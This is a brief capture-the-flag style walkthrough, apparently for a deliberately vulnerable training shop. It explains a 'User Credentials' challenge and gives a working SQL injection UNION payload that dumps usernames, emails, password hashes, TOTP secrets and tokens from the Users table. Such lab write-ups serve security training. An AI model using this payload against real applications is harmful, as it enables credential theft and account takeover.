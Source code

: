 ## User Credentials
**Category:** Injection

**Difficulty:** 4/6

**Challenge Description:** Retrieve a list of all user credentials via SQL Injection.

## Approach

### Prerequisites

It is very helpful to know the database schema at this point, so maybe have a look at [Database Schema](/database-schema.md). At this point we also know already 2 input fields, which are vulnerable.

### SQL Query

The SQL Query is very similar to the one from [Database Schema](/database-schema.md), with the difference, that it retrieves more columns from a different table.

SQL Query: **adesf'))+UNION+SELECT+id,username,email,password,role,deluxeToken,lastLoginIp,totpSecret,isActive+FROM+Users--**

![User Credentials](/images/sqli-all-users.png)